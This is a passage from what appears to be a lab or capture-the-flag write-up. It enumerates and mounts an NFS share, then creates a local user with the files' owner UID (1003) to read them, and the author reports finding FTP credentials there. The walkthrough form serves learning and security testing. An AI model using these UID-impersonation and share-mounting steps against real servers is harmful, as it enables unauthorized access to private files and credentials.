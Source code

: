 ```bash
showmount -e <IP>
mkdir /tmp/mount
sudo mount -t nfs <IP>:/mnt/share /tmp/mount
```

Note: files may be owned by UIDs that don't exist on your machine. If files are owned by `uid 1003` you can create a local user with that UID to interact with them:

```bash
sudo adduser --uid 1003 someuser
sudo su someuser
ls /tmp/mount
```

From the exported share I found FTP credentials. Unmount when done:

```bash
sudo umount /tmp/mount
```

Screenshot:      
![nfs](screenshots/hijack_mount.png)
![UID-1003](screenshots/hijack_1003.png)

---